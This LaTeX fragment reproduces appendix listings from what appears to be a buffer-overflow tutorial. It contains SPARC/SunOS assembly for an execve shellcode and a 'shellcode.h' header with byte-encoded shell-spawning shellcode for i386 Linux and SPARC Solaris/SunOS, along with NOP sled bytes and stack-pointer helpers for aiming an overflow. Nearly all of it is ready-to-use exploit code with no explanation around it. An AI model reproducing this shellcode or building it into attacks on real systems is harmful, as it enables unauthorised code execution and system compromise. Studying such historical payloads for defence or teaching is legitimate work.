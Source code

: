 \documentclass[a4paper]{article}
\begin{document}
\subsection{SPARC/SunOS}

\begin{listing}[H]
\begin{verbatim}
   sethi   0xbd89a, %l6
    or      %l6, 0x16e, %l6
    sethi   0xbdcda, %l7
    and     %sp, %sp, %o0
    add     %sp, 8, %o1
    xor     %o2, %o2, %o2
    add     %sp, 16, %sp
    std     %l6, [%sp - 16]
    st      %sp, [%sp - 8]
    st      %g0, [%sp - 4]
    mov     0x3b, %g1
	mov	-0x1, %l5
    ta      %l5 + 1
    xor     %o7, %o7, %o0
    mov     1, %g1
    ta      %l5 + 1
\end{verbatim}
\label{listing:1}
\end{listing}

\section{Appendix B - Generic Buffer Overflow Program}

\begin{listing}[H]
\begin{verbatim}
#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE	1
char nop[] = "\x90";
char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE	4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#endif
\end{verbatim}
\caption{shellcode.h}
\label{listing:1}
\end{listing}
\end{document}
